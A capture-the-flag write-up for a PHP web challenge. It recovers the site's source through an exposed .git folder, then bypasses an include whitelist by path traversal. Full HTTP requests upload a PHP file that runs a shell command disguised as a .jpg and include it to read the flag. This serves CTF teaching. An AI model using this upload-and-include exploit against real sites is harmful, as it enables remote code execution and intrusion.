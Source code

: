 #信息收集
----
信息收集很重要

#Examination Site
----
* git
* PHP Include
* PHP Upload

#Analysis
----
Use dirsearch.py to scan the website dir,and will found the .git
```bash
[09:12:56] 200 -  377B  - /.git/index
```
Then we will get 4 files:
* include.php
* upload.php
* showimage.php
* index.php

The essential code:
From *include.php*
```php
function check($file)
    {
        $whitelist = array('showimage.php');
        if (! isset($file) || !is_string($file)) {
            return false;
        }

        if (in_array($file, $whitelist)) {
            return true;
        }

        $file = mb_substr($file,0,mb_strpos($file . '?', '?'));
        if (in_array($file, $whitelist)) {
            return true;
        }

        $file = urldecode($file);
        $file = mb_substr($file,0, mb_strpos($file . '?', '?'));
        if (in_array($file, $whitelist)) {
            return true;
        }

        return false;
    }
```

From *upload.php*:
```php
if($file)
{
    $name = strtolower($file['name']);
    $ext = getImageExt($name);
    if(!in_array($ext,$whiteList))
    {
        exit('非法格式上传');
    }
    $randomString = getRandomString();
    $fileName =  $randomString.'.'.$ext;
    if(move_uploaded_file($file['tmp_name'],'ac78b24a/'.$fileName))
    {
        echo "<h2>文件上传成功!</h2>".'文件名:'.$fileName;
    }
    else
    {
        echo "<h2>文件上传失败!</h2>";
    }
}
```
Now we know that we need to upload a jpg with php code and then include it.
Howevers,we need to bypass the *$check()*.
The payloads is **showimage.php?/../../ac78b24a/[Your php code].jpg**

#Exploit
The *upload.php* doesn't offer the upload interface so that we need to modify the http packages.
```http
POST /upload.php HTTP/1.1
Host: examination.cup.360.cn:9002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: __huid=11fv2PitnuoaSLI4gxDUndFDIRvfP+nkDvFt7SmHgbm8s=; __guid=133126103.2566954415202299904.1571389874001.5566; Qs_lvt_317691=1571389874%2C1571390365; Qs_pv_317691=3339381377967604700%2C4248602918050323500%2C1090171495033724300%2C4183073154641787400; __DC_gid=59612149.737379581.1571389903664.1571389932667.3; __gid=176960547.101599076.1571463340619.1571463442726.4; bad_id73963b90-5cf1-11e9-9a78-b1dd2463a67d=4a565812-f232-11e9-8090-3fa0d6bf21d3; JSESSIONID=0BB281AAC5ABDCC251F305EACCF6DC37; PHPSESSID=cb2b3288fb797e27c3803dac23bcd663
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------9011289509495
boundary=---------------------------9011289509495
Content-Length: 245

-----------------------------9011289509495
Content-Disposition: form-data; name="face"; filename="1.php%.jpg"
Content-Type: application/octet-stream

<?php
system('cat 739d3f54_flag.php');
?>
-----------------------------9011289509495
```

And it works!
```http
HTTP/1.1 200 OK
Server: panyun/0.9.0
Date: Sat, 02 Nov 2019 05:10:04 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 74
Connection: close
X-Powered-By: PHP/7.1.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding

<h2>文件上传成功!</h2>文件名:625347d9f50a20093077ae6ee40de99a.jpg
```

And then we use *include.php* to include it.
```http
GET /include.php?file=showimage.php?/../ac78b24a/625347d9f50a20093077ae6ee40de99a.jpg HTTP/1.1
Host: examination.cup.360.cn:9002
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Cookie: __huid=11fv2PitnuoaSLI4gxDUndFDIRvfP+nkDvFt7SmHgbm8s=; __guid=133126103.2566954415202299904.1571389874001.5566; Qs_lvt_317691=1571389874%2C1571390365; Qs_pv_317691=3339381377967604700%2C4248602918050323500%2C1090171495033724300%2C4183073154641787400; __DC_gid=59612149.737379581.1571389903664.1571389932667.3; __gid=176960547.101599076.1571463340619.1571463442726.4; bad_id73963b90-5cf1-11e9-9a78-b1dd2463a67d=4a565812-f232-11e9-8090-3fa0d6bf21d3; JSESSIONID=0BB281AAC5ABDCC251F305EACCF6DC37; PHPSESSID=cb2b3288fb797e27c3803dac23bcd663
Upgrade-Insecure-Requests: 1


```

Get Flag.
```http
HTTP/1.1 200 OK
Server: panyun/0.9.0
Date: Sat, 02 Nov 2019 05:10:04 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 74
Connection: close
X-Powered-By: PHP/7.1.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding

<?php


//flag{4305506ff1c88b05c2c53df2df8bcdce}


?>
```